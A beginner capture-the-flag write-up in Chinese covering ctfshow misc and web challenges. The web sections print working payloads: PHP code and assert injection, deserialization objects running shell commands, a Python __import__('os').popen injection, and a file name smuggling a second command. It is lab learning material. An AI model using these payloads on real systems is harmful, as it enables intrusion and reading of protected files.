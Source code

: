 ## 菜狗入门题writeup

[TOC]

##### 一、杂项签到

使用010 editor查找ASCII的ctf字段，找到flag。

##### 二、损坏的压缩包

使用010 editor查看文件类型，将文件格式改为png。

##### 三、谜之栅栏

使用010 editor的compare files功能找到不同字段。

##### 四、你会数数吗

使用010 editor的histogram功能对可见字符数进行排序。

<img src="./src/4.1.png" alt="4.1" style="zoom:50%;" />

##### 五、你会异或吗

使用010 editor的hex operations功能进行0x50异或得到正常图片。

##### 六、flag一分为二

额Mac上不好操作直接找了[wp](https://blog.csdn.net/m0_68012373/article/details/128960816)。

##### 七、我是谁

一道网页交互和图像处理的题目，看[脚本](./src/whoami.py)。

##### 八、you and me

盲水印的题目，直接用GitHub开源的BlindWaterMark-master。

##### 九、我吐了你随意

unicode零宽字符的题目，用[网站工具](http://330k.github.io/misc_tools/unicode_steganography.html)解码。

##### 十、web签到

按源代码要求用hackbar提交内容执行打印flag操作。注意使用cookie传参的时候对CTFshow-QQ群:=post_var进行url编码。

<img src="./src/web1.png" alt="image-20240117204139359" style="zoom:50%;" />

##### 十一、我的眼里只有$

```shell
_=a&a=b&b=c&c=d&d=e&e=f&f=g&g=h&h=i&i=j&j=k&k=l&l=m&m=n&n=o&o=p&p=q&q=r&r=s&s=t&t=u&u=v&v=w&w=x&x=y&y=z&z=A&A=B&B=C&C=D&D=E&E=F&F=G&G=H&H=I&I=system('ls /');
```

##### 十二、抽老婆

任意文件读取的题目，下载网页flask框架下的[app.py](./src/getwifi.py)，修改后本地部署，将本地的cookie中session中复制到远程，调用验证session的getflag函数`@app.route('/secret_path_U_never_know',methods=['GET'])`，也可以看网上另一种[方法](https://blog.csdn.net/weixin_45908624/article/details/128575744?ops_request_misc=&request_id=&biz_id=102&utm_term=ctfshow%20抽老婆&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduweb~default-3-128575744.142%5Ev81%5Ekoosearch_v1,201%5Ev4%5Eadd_ask,239%5Ev2%5Einsert_chatgpt&spm=1018.2226.3001.4187)。

##### 十三、一言既出

```php
第一种payload	?num=114514);//		形成括号闭合后直接注释后面的内容
第二种payload	?num=114514%2b1805296		使用url编码的加号，在弱类型相等时只检测%前面的内容，后面则会执行加法
第三种payload	?num=114514);(19199810		形成括号闭合后assert("intval(114514);(19199810)==1919810")进行绕过
```

##### 十四、驷马难追

和十三相同，只是增加了过滤规则，使用url编码绕过即可，第二种payload也同样适用。

##### 十五、TapTapTap

相信自己的手速可以玩玩看（用手机玩很容易过），最终会得到路径，实际上直接看源代码就行了，找到游戏结束的输出用base64解码得到同样的提示信息。

<img src="./src/taptap.png" alt="taptap" style="zoom:50%;" />

<img src="./src/taptap2.png" alt="taptap2" style="zoom:50%;" />

##### 十六、Webshell

看一下源代码可知是反序列化的题目，那么构造简单的payload用[PHP在线运行](https://www.jyshare.com/compile/1/)进行序列化，对cmd进行payload传参查看源代码。

```php
$poc = new Webshell();
$poc->cmd='cat fla*';
echo serialize($poc);
//		O:8:"Webshell":1:{s:3:"cmd";s:8:"cat fla*";}
```

##### 十七、传说之下（雾）

既然是js就可以篡改数据，查看game.js源代码，在控制台将Game中的score改为通关分数即可查看到flag。

<img src="./src/snake0.png" alt="snake0" style="zoom:50%;" />

<img src="./src/snake1.png" alt="snake1" style="zoom:50%;" />

<img src="./src/snake2.png" alt="snake2" style="zoom:50%;" />

##### 十八、算力超群

```shell
payload：
/_calculate?number1=&operator=&number2=__import__('os').popen('cat /f*').read()
```

##### 十九、茶歇区

用hackbar好像操作不了，被迫投奔bp抓包，只是一道数值溢出的 ~~pwn~~ web题。先操作一次再把得到的post方法发给repeater，用以下的payload重发两次即可。但是e为什么是这么多个9还不清楚原因，貌似换成其他数量不能成功。

```PHP
a=0&b=0&c=0&d=0&e=999999999999999999&submit=%E5%8D%B7%E4%BA%86%E5%B0%B1%E8%B7%91%EF%BC%81
```

<img src="./src/rest0.png" alt="rest0" style="zoom:50%;" />

<img src="./src/rest1.png" alt="rest1" style="zoom:50%;" />

##### 二十、小舔田？

反序列化的题，看[payload](./src/serial.php)代码丢进去运行即可，得到的序列化参数为

```php
?code=O%3A4%3A"Moon"%3A1%3A%7Bs%3A4%3A"name"%3BO%3A16%3A"Ion_Fan_Princess"%3A1%3A%7Bs%3A8%3A"nickname"%3Bs%3A9%3A"小甜甜"%3B%7D%7D
```

##### 二十一、LSB探姬

源代码中可以明显发现文件上传漏洞，我们只需要在上传文件时添加想要执行的命令即可

```python
 cmd="python3 tsteg.py upload/"+f.filename
```

将一张图片pic.jpg修改命名为pic.jpg;cat flag.py即可。
